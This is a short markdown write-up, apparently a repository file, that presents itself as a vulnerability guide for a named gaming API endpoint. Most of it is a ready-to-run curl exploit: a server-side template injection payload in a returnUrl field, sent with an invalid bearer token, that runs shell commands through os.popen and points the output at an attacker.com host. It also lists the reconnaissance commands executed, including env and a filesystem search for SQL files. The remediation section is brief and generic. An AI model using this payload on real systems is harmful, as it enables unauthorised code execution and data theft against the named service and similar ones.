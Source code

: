 # 🚨 CRITICAL VULNERABILITY GUIDE - RCE with Invalid Tokens

## **Vulnerability Summary**

**Endpoint:** 
**Method:** POST
**Authentication:** Bypassed (works with invalid/expired tokens)
**Payload:** SSTI in returnUrl parameter

## **Exploitation Method**

```bash
curl -X POST 'https://api.usun.cash/api/game/usun/launch' \
-H "Authorization: Bearer ANY_INVALID_TOKEN" \
-H 'Content-Type: application/json' \
-d '{
  "gameName": "exploit",
  "isMobile": true,
  "returnUrl": "https://attacker.com?data={{ self._TemplateReference__context.joiner.init.globals.os.popen(\"COMMAND\").read() }}"
}'
```

## **Critical Commands Executed**

- System Information: `whoami`, `id`, `uname -a`
- File System: `ls -la /`, `pwd`
- Environment: `env`
- Network: `netstat -tuln`
- Processes: `ps aux`
- File Search: `find / -name '*.sql'`

## **Security Impact**

1. **Complete Authentication Bypass**
2. **Full Remote Code Execution**
3. **System Information Disclosure**
4. **Potential Data Exfiltration**
5. **Backdoor Establishment Capability**

## **Immediate Remediation Required**

1. **Implement proper token validation**
2. **Add input sanitization**
3. **Audit all endpoints**
4. **Implement WAF rules**

